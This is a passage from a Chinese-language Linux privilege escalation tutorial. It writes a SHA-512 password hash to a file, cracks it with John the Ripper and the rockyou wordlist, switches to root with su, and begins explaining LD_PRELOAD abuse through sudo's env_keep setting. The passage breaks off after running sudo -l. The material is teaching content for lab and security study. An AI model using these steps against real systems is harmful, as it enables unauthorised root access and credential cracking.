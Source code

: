 #### 5.将密码哈希保存在文件中：

```php
echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt
```

![image-20210630163503549](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a26500c19619900b66fea49053a6bef5d8ad5619.png)

#### 6.使用开膛手破解密码哈希：

```php
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![image-20210630141447898](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-29948fb5eab617c9616cefb0e9d3efafa392b7b9.png)

#### 7.使用su 命令切换到root用户

```php
su
```

![image-20210630164008714](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f9a30d39bdd4badc1b13322a929593a31eda50e8.png)

### 环境变量

通过sudo运行的程序可以从用户的环境中继承环境变量。  
在`/etc/sudoers`配置文件中，

如果设置`env_reset`选项，sudo 将在新的、最小的环境中运行程序。  
`env_keep`选项可用于防止某些环境变量远离用户的环境。  
`sudo -l`时显示配置的选项

#### LD\_PRELOAD

##### 前言

LD\_PRELOAD预加载 是一个环境变量，可以设置为共享对象 (.so)文件的路径。  
设置时，共享对象将先于任何其他对象加载。  
通过创建自定义共享对象并创建 init()功能，我们可以在加载 object 后立即执行代码。

##### 局限性

如果真正的用户 ID与有效的用户 ID不同，则LD\_PRELOAD将不起作用。  
必须配置 sudo，以便使用`env_keep`选项来维护LD\_PRELOAD环境变量。

##### 实操

##### 1.列出允许用户运行的程序

```php
sudo -l
```

![image-20210704102838002](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-05bb8446e5ed57c439784e3b62b93dc4482d3d54.png)
